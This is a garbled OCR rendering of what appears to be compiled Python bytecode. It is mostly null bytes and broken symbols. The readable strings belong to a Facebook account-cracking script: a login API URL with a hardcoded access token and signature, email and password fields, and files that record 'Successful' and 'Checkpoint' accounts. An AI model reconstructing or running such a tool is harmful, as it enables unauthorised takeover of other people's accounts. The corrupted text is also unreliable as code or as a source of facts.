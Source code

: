  &#x0;�&#x0;&#x0;|&#x0;|&#x0;�&#x0;n&#x0;d&#x0;|&#x0;d &#x0;k&#x0;rhd&#x0;�&#x0;�&#x0;&#x0;|&#x0;d&#x0;|&#x0;d&#x0;GHt&#x0;d&#x0;d 
 &#x0;�&#x0;}&#x0;|&#x0;j&#x0;�&#x0;�&#x0;&#x0;|&#x0;d&#x0;|&#x0;d&#x0;�&#x0;|&#x0;j&#x0;�&#x0;&#x0;t&#x0;j 
 &#x0;�&#x0;&#x0;|&#x0;|&#x0;�&#x0;n&#x0;&#x0;Wn&#x0;n&#x0;Xd&#x0;&#x0;S(&#x0;&#x0;&#x0;Nt&#x0;&#x0;&#x0;saves�&#x0;&#x0;&#x0;https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=1&email=s&#x0;&#x0;&#x0;&locale=en_US&password=sH&#x0;&#x0;&#x0;&sdk=ios&generate_session_cookies=1&sig=3f555f98fb61fcd7aa0c44f58f522efmt&#x0;&#x0;&#x0;access_tokens&#x0;&#x0;&#x0;[1;92m[Successful][1;92m s&#x0;&#x0;&#x0; >>> s&#x0;&#x0;&#x0; 
 s&#x0;&#x0;&#x0;save/successfull.txtR&#x0;&#x0;&#x0;&#x0;s&#x0;&#x0;&#x0;>>>s&#x0;&#x0;&#x0;www.facebook.comt        &#x0;&#x0;&#x0;error_msgs&#x0;&#x0;&#x0;[1;97m[Checkpoint][1;97m s&#x0;&#x0;&#x0;save/checkpoint.txt(&#x0;&#x0;&#x0;R&#x0;&#x0;&#x0;t&#x0;&#x0;&#x0;mkdirt&#x0;&#x0;&#x0;OSErrort&#x0;&#x0;&#x0;brt&#x0;&#x0;&#x0;opent&#x0;&#x0;&#x0;jsont&#x0;&#x0;&#x0;loadR&#x0;&#x0;&#x0;t&#x0;&#x0;&#x0;closet&#x0;&#x0;&#x0;okst&#x0;&#x0;&#x0;appendt&#x0;&#x0;&#x0;cpb(&#x0;&#x0;&#x0;t&#x0;&#x0;&#x0;argt&#x0;&#x0;&#x0;usert&#x0;&#x0;&#x0;pass1t&#x0;&#x0;&#x0;datat&#x0;&#x0;&#x0;qt&#x0;&#x0;&#x0;okbt&#x0;&#x0;&#x0;cps(&#x0;&#x0;&#x0;t&#x0;&#x0;&#x0;ct&#x0;&#x0;&#x0;k(&#x0;&#x0;&#x0;&#x0;s &#x0;&#x0;&#x0;223842065o.pyt&#x0;&#x0;&#x0;main�&#x0;&#x0;s.&#x0;&#x0;&#x0;&#x0; '!! 
 ! 
 i&#x0;&#x0;&#x0;s&#x0;&#x0;&#x0;[1;91m=s,&#x0;&#x0;&#x0;[✓][1;93m Process Has Been Completed ....s"&#x0;&#x0;&#x0;[✓][1;92m Total OK/[1;96mCP : t&#x0;&#x0;&#x0;/s9&#x0;&#x0;&#x0;[✓][1;91m CP File Has Been Saved : save/checkpoint.txts&#x0;&#x0;&#x0; 
 [Press Enter To Go Back]s&#x0;&#x0;&#x0;python2 cat.py(&#x0;&#x0;&#x0;t        &#x0;&#x0;&#x0;raw_inputR&#x0;&#x0;&#x0;R&#x0;&#x0;&#x0;R&#x0;&#x0;&#x0;R&#x0;&#x0;&#x0;RF&#x0;&#x0;&#x0;t        &#x0;&#x0;&#x0;readlinest&#x0;&#x0;&#x0;idRK&#x0;&#x0;&#x0;t&#x0;&#x0;&#x0;stript&#x0;&#x0;&#x0;IOErrorR&#x0;&#x0;&#x0;R        &#x0;&#x0;&#x0;t&#x0;&#x0;&#x0;strt&#x0;&#x0;&#x0;lenR&#x0;&#x0;&#x0;R &#x0;&#x0;&#x0;R&#x0;&#x0;&#x0;R&#x0;&#x0;&#x0;t&#x0;&#x0;&#x0;mapRJ&#x0;&#x0;&#x0;RL&#x0;&#x0;&#x0;(&#x0;&#x0;&#x0;t&#x0;&#x0;&#x0;bcht&#x0;&#x0;&#x0;idlistt&#x0;&#x0;&#x0;linet&#x0;&#x0;&#x0;xxxRV&#x0;&#x0;&#x0;t&#x0;&#x0;&#x0;p(&#x0;&#x0;&#x0;&#x0;(&#x0;&#x0;&#x0;RT&#x0;&#x0;&#x0;RU&#x0;&#x0;&#x0;s &#x0;&#x0;&#x0;223842065o.pyR&#x0;&#x0;&#x0;b&#x0;&#x0;&#x0;s"&#x0;&#x0;&#x0; 
   
   
   
   
   
   
   
   
   
   
   
   
   
   
   
   
   
   
   
   
   
   
   
   
   
   
   
   
   
   
   
   
   
   
   
   
  
   